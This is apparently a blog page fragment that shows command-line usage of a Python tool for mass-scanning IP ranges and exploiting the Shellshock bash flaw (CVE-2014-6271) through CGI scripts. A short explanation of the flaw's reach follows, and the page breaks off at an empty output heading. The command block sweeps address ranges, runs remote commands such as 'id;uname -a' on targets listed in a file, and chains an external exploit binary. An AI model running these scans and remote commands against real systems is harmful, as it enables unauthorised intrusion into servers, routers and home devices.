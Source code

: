 

<hr class="wp-block-separator has-alpha-channel-opacity">



<h2 class="wp-block-heading">COMMAND:</h2>



<pre class="wp-block-code"><code>python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --range '194.206.187.X,194.206.187.XXX' --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt' --all

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln 'curl -v -k -i "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"'</code></pre>



<h3 class="wp-block-heading" id="v-chem-unikalnost-etoj-uyazvimosti">What makes this vulnerability unique?</h3>



<p>This vulnerability is extremely easy to exploit, which leads to extremely serious consequences – not least due to the number of vulnerable targets.&nbsp;This applies not only to web servers, but also to any software that uses the bash interpreter and reads data that you can control.</p>



<p>Analysts are currently investigating whether other interpreters such as PHP, JSP, Python and Perl are affected by this vulnerability.&nbsp;Depending on how the code is written, the interpreter may, in some cases, use bash to perform a number of functions.&nbsp;In this regard, the exploitation of the CVE-2014-6271 vulnerability can be carried out through other interpreters.</p>



<p><a href="https://cryptodeeptech.ru/blockchain-attack-vectors/" target="_blank" rel="noreferrer noopener">Exploitation of the vulnerability</a>&nbsp;has serious consequences due to the fact that CGI scripts are widely used on many devices: routers, home devices and wireless access points.&nbsp;All of them are also vulnerable, and closing the vulnerability on them is often quite difficult.</p>



<h2 class="wp-block-heading" id="17d4">PRINTS:</h2>


